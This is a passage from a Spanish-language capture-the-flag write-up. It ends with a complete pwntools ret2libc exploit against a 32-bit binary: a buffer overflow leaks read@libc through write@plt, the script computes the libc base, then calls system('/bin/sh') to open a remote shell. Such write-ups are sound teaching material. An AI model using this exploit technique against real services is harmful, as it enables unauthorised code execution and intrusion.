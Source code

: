 Ya tenemos el challenge practicamente resuelto! Solo que lo hicimos localmente y, obviamente, no tenemos ninguna flag aquí :/.
Lo que faltaria seria correrlo remotamente, y para eso solamente hay que reemplazar las direcciones obtenidas de la libc (libc_read, libc_system, libc_binsh, libc_exit) con las que obtendriamos de la libc que se nos da con el challenge. Despues de eso bastaria modificar el exploit un poco para hacerlo correr en un servicio remoto, de la siguiente manera:
```python
p = remote("x.x.x.x", 5555)
```
Emulando el servicio localmente, como indicado al comienzo del writeup, vemos que conseguimos una shell:

![](/assets/images/content/cuarentefa/remoteshell.png)

El exploit final nos queda así:

```python
#!/usr/bin/python
from pwn import *

#p = process("./apruebo")
#p = gdb.debug("./apruebo", "b main")
p = remote("127.0.0.1", 5555)

junk = "A"*140

plt_write = p32(0x08049050)
got_read = p32(0x0804c00c)
main = p32(0x080491a7)

payload = junk + plt_write + main + p32(0x01) + got_read + p32(0x04)

p.sendline(payload)

leak = u32(p.recv())
log.info("read@libc: " + hex(leak))

libc_read = 0x000ea3a0
libc_base = leak - libc_read

log.info("Base de libc: " + hex(libc_base))

# Direcciones de libc, al correr exploit remotamente
# recordar reemplazar por las del libc del challenge.
system = libc_base + 0x042660
bin_sh = libc_base + 0x17ff68
exit = libc_base + 0x000356f0 

payload = junk + p32(system) + p32(exit) + p32(bin_sh)

p.sendline(payload)
p.interactive()
```
